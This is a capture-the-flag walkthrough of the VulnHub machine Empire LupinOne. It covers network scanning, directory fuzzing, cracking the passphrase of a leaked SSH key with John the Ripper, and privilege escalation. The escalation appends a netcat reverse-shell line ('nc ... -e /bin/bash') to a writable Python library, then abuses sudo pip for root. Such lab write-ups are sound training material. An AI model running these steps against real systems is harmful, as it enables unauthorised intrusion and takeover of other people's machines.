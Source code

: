 ```yaml
---
title: VulnHub - Empire LupinOne
author: ret2x
date: 2022-08-29 15:40:33 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, file disclosure]
image:
    path: /assets/images/empire/front.png
---
```


**Description:** A linux machine which requires further enumeration on the website to discover a weak ssh private key allowing access to the server. Certain bad practices like setting scripts with sudo permissions allowed elevate the access level and gain root privileges.

**Authors:** icex64 & Empire Cybersecurity

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/empire-lupinone,750/](https://www.vulnhub.com/entry/empire-lupinone,750/)

## Information Gathering
### Host Discovery

The following ARP scan discovered the target machine.

```console
root@kali:~# netdiscover -i vmnet1 -r 172.16.178.0/24
Currently scanning: Finished!   |   Screen View: Unique Hosts

 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 102
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 172.16.178.138  00:0c:29:2c:a9:e3      1      60  VMware, Inc.
 172.16.178.254  00:50:56:ed:6c:b4      1      42  VMware, Inc.
```

### Port Scanning

A full TCP port scan discovered two available open ports.

```console
root@kali:~# nmap -v -n -p- -T4 --open -Pn 172.16.178.138 -oG nmap/all-tcp-ports.txt
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Service Enumeration

With the objective to discover more information regarding open ports an aggressive scan was performed.

```console
root@kali:~# nmap -v -n -p22,80 -A -Pn 172.16.178.138 -oN nmap/service-enum.txt
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   3072 ed:ea:d9:d3:af:19:9c:8e:4e:0f:31:db:f2:5d:12:79 (RSA)
|   256 bf:9f:a9:93:c5:87:21:a3:6b:6f:9e:e6:87:61:f5:19 (ECDSA)
|_  256 ac:18:ec:cc:35:c0:51:f5:6f:47:74:c3:01:95:b4:0f (ED25519)
80/tcp open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
| http-robots.txt: 1 disallowed entry
|_/~myfiles
|_http-server-header: Apache/2.4.48 (Debian)
```

### Web Enumeration

Browsing the web page I did not find valuable information.

![](/assets/images/empire/screenshot-1.png)

I noticed in the nmap output the **/~myfiles** directory, I accessed this resource.

![](/assets/images/empire/screenshot-2.png)

I ran wfuzz to discover web content and found the **/~secret** directory.

```console
root@kali:~/scripts# wfuzz -v --hc 403,404 -z file,/usr/share/dirb/wordlists/common.txt http://172.16.178.138/~FUZZ
...
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000003537:   301        9 L      28 W       318 Ch      "secret"
```

I accessed to the **/~secret** directory and found a note describing that there is a ssh private key hidden somewhere on the web page.

![](/assets/images/empire/screenshot-3.png)

I continued with the enumeration and found the **.mysecret.txt** file.

```console
root@kali:~/scripts# wfuzz -c --hc 403,404 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://172.16.178.138/~secret/.FUZZ.txt
...
000073703:   200        1 L      1 W        4689 Ch     "mysecret"
```

This contains an encoded text.

![](/assets/images/empire/screenshot-4.png)


## Exploitation
### Weak ssh key password

To detect the type of encoding performed on the ssh key, I accessed to the following link: [https://www.dcode.fr/cipher-identifier](https://www.dcode.fr/cipher-identifier)

![](/assets/images/empire/screenshot-5.png)

The ssh key is base58 encoded, so I downloaded it, decoded it, and saved it into a file.

```console
root@kali:~# curl -s "http://172.16.178.138/~secret/.mysecret.txt" | base58 -d > id_rsa
```

I converted the ssh private key to a hash format, then with john the ripper I cracked the hash and got the password.

```console
root@kali:~# ssh2john id_rsa > john_rsa

root@kali:~# john john_rsa -wordlist=/usr/share/wordlists/fasttrack.txt
...
P@55w0rd!        (id_rsa)
```

I granted limited permissions to the private key, and logged in via ssh.

```console
root@kali:~# chmod 600 id_rsa

root@kali:~# ssh icex64@172.16.178.138 -i id_rsa
Enter passphrase for key 'id_rsa':
Linux LupinOne 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64
########################################
Welcome to Empire: Lupin One
########################################
Last login: Thu Oct  7 05:41:43 2021 from 192.168.26.4
icex64@LupinOne:~$ ls
user.txt
```

In the icex64's user the first flag was found.

```console
icex64@LupinOne:~$ tail -1 user.txt
3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}
```

I noted that the user **icex64** can run the heist.py script with sudo permissions as the user **arsene**.

```console
icex64@LupinOne:~$ sudo -l
Matching Defaults entries for icex64 on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User icex64 may run the following commands on LupinOne:
    (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

## Privilege Escalation
### Sudo Permissions

It is observed that the python script is importing the module webbrowser.

```console
icex64@LupinOne:/home/arsene$ cat heist.py
import webbrowser

print ("Its not yet ready to get in action")

webbrowser.open("https://empirecybersecurity.co.mz")
```

Since I do not have privileges to write this script, I found out that I have permissions to write to the **webbrowser** library.

```console
icex64@LupinOne:/home/arsene$ find / -writable -type f 2>/dev/null | grep -Ev 'proc|sys'
...
/usr/lib/python3.9/webbrowser.py
```

I added the **system** function to the **/usr/lib/python3.9/webbrowser.py** script so that it executes a netcat payload.

```console
icex64@LupinOne:/home/arsene$ echo 'os.system("nc 172.16.178.1 443 -e /bin/bash")' >> \
> /usr/lib/python3.9/webbrowser.py
```

I started a netcat listener on port 443, and executed the following command.

```console
icex64@LupinOne:/home/arsene$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
```

I got a shell with privileges of user **arsene**.

```console
root@kali:~# nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.138] 60732
python3 -c 'import pty; pty.spawn("/bin/bash")'
arsene@LupinOne:~$
```

By listing the sudo permissions, **arsene** has permissions to execute the pip command as sudo.

```console
arsene@LupinOne:~$ sudo -l
sudo -l
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```

I followed the GTFOBINS instructions to escalate privileges, this can be found [here](https://gtfobins.github.io/gtfobins/pip/#sudo)

The following commands create an arbitrary python module and install it, giving me a root shell.

```console
arsene@LupinOne:~$ sudo /usr/bin/pip install $TF
sudo /usr/bin/pip install $TF
Processing /tmp/tmp.hjxBPCh97j
root@LupinOne:/tmp/pip-req-build-fokc5kqf# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```console
root@LupinOne:~# tail -2 root.txt
tail -2 root.txt
3mp!r3{congratulations_you_manage_to_pwn_the_lupin1_box}
See you on the next heist.
```
